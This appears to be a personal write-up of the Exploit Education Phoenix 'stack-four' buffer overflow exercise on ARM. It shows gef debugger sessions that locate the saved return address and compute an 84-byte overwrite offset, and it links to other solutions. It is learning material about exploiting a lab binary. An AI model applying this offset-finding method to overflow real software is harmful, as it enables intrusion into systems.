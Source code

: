 # Phoenix Stack4
## Static Analysis
##### Analyse the binary
`r2 -A stack-four`
##### Result
`Congratulations, you've finished phoenix/stack-four :-) Well done!`
##### Learning
Reading the `registers` when the app crashed [ with a `segmentation fault` ] revealed clues.  To get the crash you passed in a large string that caused the `buffer overflow`.  The overflow was possible as the app used the C `gets` API to gather user input.

When I originally wrote the Challenge summary, I wrote:

> I used the clues from the crash to place a breakpoint that showed how the `Frame Pointer ($fp)` could be overwritten to alter the `Code Path`.  The `$fp` was named the `r11` register on ARM 32 bit device.

After digesting the excellent article about the `Stack` from [Azeria-Labs][6435d6f8], I concluded my understanding was not complete.

  [6435d6f8]: https://azeria-labs.com/functions-and-the-stack-part-7/ "stack explained on ARM"

Although I found the answer, I better needed to understand the `Load Register`, `leaf functions` and which type of `Stack` I was dealing with.

##### Better answers
From this write-up - https://mmmds.pl/phoenix/ - I liked the quicker way to find the target `offset`, using a `debugger`.   Before I had only used a `disassembler` to find the address.
```
gef> p complete_level
0x10544     <- a simple way to find this address with only a debugger
```
https://blog.lamarranet.com/index.php/exploit-education-phoenix-stack-four-solution/ was excellent.  He had two alternative commands to find the `return address` stored in the `$fp`.
```
Create a large string of AAABBBCCCs
Place the breakpoint on the seg fault
gef> p/x $sp
$1 = 0xfffefd20

gef> x/24x $sp
0xfffefd20:	0xfffefd5f	0x41414141	0x41414141	0x42424241
0xfffefd30:	0x42424242	0x42424242	0x43424242	0x43434343
0xfffefd40:	0x43434343	0x43434343	0x00004343	0x00000000
0xfffefd50:	0x0001059c	0xf7799894	0xf77eee40	0x0a00000a
0xfffefd60:	0xf77eee40	0x000105bc	0xfffefdbc	0xfffefdbc
0xfffefd70:	0xfffefd84	0x000105bc	0xfffefdb4	0x00000001

gef> find $sp, +96,0x000105bc
0xfffefd64
0xfffefd74

gef> p/x $fp
$2 = 0xfffefd74
```
Then you could find out the numbers of bytes in the Stack you needed to overwrite.
```
gef> p/u 0xfffefd74 - 0xfffefd20
$8 = 84
```
Or you could do this, after a well place breakpoint ( and not trying to overflow the stack as that could mess with the values ):
```
gef> b *0x0001058c
gef> r
```